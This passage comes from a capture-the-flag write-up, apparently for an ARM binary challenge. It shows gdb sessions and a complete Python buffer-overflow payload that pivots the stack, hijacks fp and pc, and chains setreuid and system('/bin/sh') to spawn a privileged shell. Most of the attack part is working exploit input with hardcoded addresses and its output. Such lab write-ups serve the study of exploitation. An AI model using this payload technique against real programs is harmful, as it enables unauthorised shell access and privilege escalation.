 ```gdb
cpsr           0x60070010	1611071504
```
We're able to change the _sp_ to a higher address and retake the control of _fp_ and _pc_.<br>
Now we're ready to jump to call the **setreuid**. <br>
One last thing - before the **system** function call, _r0_ is set according to this instruction ```ldr	r0, [fp, #-16]```. So, we'll need to put 0x21000 in the stack, so _fp-16_ will point to it.<br>

```gdb
(gdb) run < <(python -c "print 'A'*64 + '\x44\x10\x02\x00' + '\x58\x06\x01\x00' + '\n' + '/bin/sh\x00' + 'A'*56 + 'CCCC' + '\xf8\x03\x01\x00' + '\xde\x04\x00\x00' + '\xb0\x05\x01\x00' + '\xde\x04\x00\x00' + '\x00\x13\x02\x00' + '\x80\x06\x01\x00' + 'A'*672 + '\x14\x13\x02\x00' + '\x94\x05\x01\x00' + '\x00\x10\x02\x00'")
Starting program: /challenge/app-systeme/ch46/ch46 < <(python -c "print 'A'*64 + '\x44\x10\x02\x00' + '\x58\x06\x01\x00' + '\n' + '/bin/sh\x00' + 'A'*56 + 'CCCC' + '\xf8\x03\x01\x00' + '\xde\x04\x00\x00' + '\xb0\x05\x01\x00' + '\xde\x04\x00\x00' + '\x00\x13\x02\x00' + '\x80\x06\x01\x00' + 'A'*672 + '\x14\x13\x02\x00' + '\x94\x05\x01\x00' + '\x00\x10\x02\x00'")
Cannot parse expression `.L1185 4@r4'.
warning: Probes-based dynamic linker interface failed.
Reverting to original interface.

Give me data to dump:
Payload is: 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 44 10 02 
Payload is: 
2f 62 69 6e 2f 73 68 

Breakpoint 1, 0x000105a4 in exec ()
(gdb) info registers
r0             0x21000	135168
r1             0xb6f4f4c0	3069506752
r2             0x10	16
r3             0x1	1
r4             0x4de	1246
r5             0x0	0
r6             0x0	0
r7             0x0	0
r8             0x0	0
r9             0x0	0
r10            0xb6f5a000	3069550592
r11            0x21314	135956
r12            0xcb	203
sp             0x21304	0x21304
lr             0xb6ed4175	-1225965195
pc             0x105a4	0x105a4 <exec+48>
cpsr           0x70010	458768
```
Awesome! So the payload is ready. Let's give it a try outside gdb.<br><br>

```sh
app-systeme-ch46@challenge04:~$ cat <(python -c "print 'A'*64 + '\x44\x10\x02\x00' + '\x58\x06\x01\x00' + '\n' + '/bin/sh\x00' + 'A'*56 + 'CCCC' + '\xf8\x03\x01\x00' + '\xde\x04\x00\x00' + '\xb0\x05\x01\x00' + '\xde\x04\x00\x00' + '\x00\x13\x02\x00' + '\x80\x06\x01\x00' + 'A'*672 + '\x14\x13\x02\x00' + '\x94\x05\x01\x00' + '\x00\x10\x02\x00'") - | ./ch46 
Give me data to dump:
Payload is: 
41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 44 10 02 
Payload is: 
2f 62 69 6e 2f 73 68 
id
```